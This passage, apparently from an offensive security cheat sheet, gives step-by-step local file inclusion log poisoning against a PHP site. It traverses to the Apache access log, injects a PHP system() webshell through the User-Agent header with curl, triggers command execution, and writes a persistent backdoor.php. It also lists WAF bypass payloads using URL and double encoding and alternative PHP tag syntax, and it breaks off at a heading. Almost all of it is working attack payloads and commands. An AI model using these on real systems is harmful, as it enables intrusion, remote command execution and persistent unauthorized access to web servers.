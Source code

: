 ### Step 2: Identify accessible log files
```
http://vulnerable.com/index.php?page=../../../var/log/apache2/access.log
```

### Step 3: Poison the log file with a User-Agent payload
```
# Using curl with a custom User-Agent
curl -A "<?php system(\$_GET['cmd']); ?>" http://vulnerable.com/

# Using Burp Suite to modify User-Agent header
```

### Step 4: Trigger the code execution via LFI and cmd parameter
```
http://vulnerable.com/index.php?page=../../../var/log/apache2/access.log&cmd=id
```

### Step 5: Establish persistence (optional)
```
# Create a backdoor via log poisoning
http://vulnerable.com/index.php?page=../../../var/log/apache2/access.log&cmd=echo "<?php system(\$_GET['cmd']); ?>" > /var/www/html/backdoor.php

# Access the backdoor
http://vulnerable.com/backdoor.php?cmd=id
```

## WAF Bypass Techniques

### Character Encoding

```
# URL encoding
User-Agent: %3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E

# Double encoding
User-Agent: %253C%253Fphp%2520system%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E
```

### Alternative PHP Syntax

```
# Short tags (when enabled)
User-Agent: <? system($_GET['cmd']); ?>

# Script tags with language attribute
User-Agent: <script language="php">system($_GET['cmd']);</script>
```

### Non-standard Execution Functions
